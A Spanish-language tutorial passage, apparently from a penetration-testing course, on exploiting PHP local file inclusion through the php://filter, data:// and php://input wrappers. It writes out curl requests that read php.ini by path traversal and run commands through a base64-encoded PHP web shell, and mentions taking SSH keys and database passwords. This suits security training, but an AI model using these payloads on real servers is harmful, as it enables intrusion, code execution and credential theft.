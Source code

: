 
## WRAPPERS DE PHP

En este modulo, nosotros explotaremos vulnerabilidades de file inclusion varios metodos. Sobre esta sección, podemos empezara a aprender como se usa este tipo de vulnerabilidades y ejecutar código remoto y ganar el control.

Nosotros podemos usar metodos para ejecutar comandos, cada uno especifico. Una forma de ganar el control del servidor es enumerando las crendenciales SSH, dandonos control de la cuenta o también sancando las contraseñas de la base de datos con un archivo como "config.php" 

Otros metodos son mas triviales como encontrar otras vulnerabilidades, local file privileges, etc..

### DATOS

El wrapper data se usa para incluid datos xterno, como codigo PHP, sin embargo, los wrappers solo son disponibles si se usa una URL incluida, si la configuración esta activada en las configuraciones PHP. Primero vamos a activarla y leeremos la configuración

## CHEKEAR CONFIGURACION PHP

Vamos a incluir configuración PHP y buscar "/etc/php/X.Y/apache2.php.ini" para apche o "/etc/php/X.Y/php.ini" para Nginx, Donde "X.Y" es la versión PHP. Nosotros podemos estar con la ultima version y luego utilizar otras. 

```
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

### REMOTE CODE EXECUTION

Con "allow_url_include" activado, podemos prodceder con daots, como ya sabemos este wrapper se utiliza para incluid datos externos, incluid codigo PHP. Podemos pasarlo en base64 y hacer una remote shell

```
echo '<?php system($_GET["cmd"]); ?>' | base64
```

Ahora podemos hacer un URL encode como "data://text/plain;base64;" y usamos el comando &cmd=<command>

```
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

# INPUT

Igual que el data tambien puede incluid codigo exteno, la diferenncia esque esto lo utilizamos con POST y es vulnerable si acepta este tipo de peticiones.

```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```
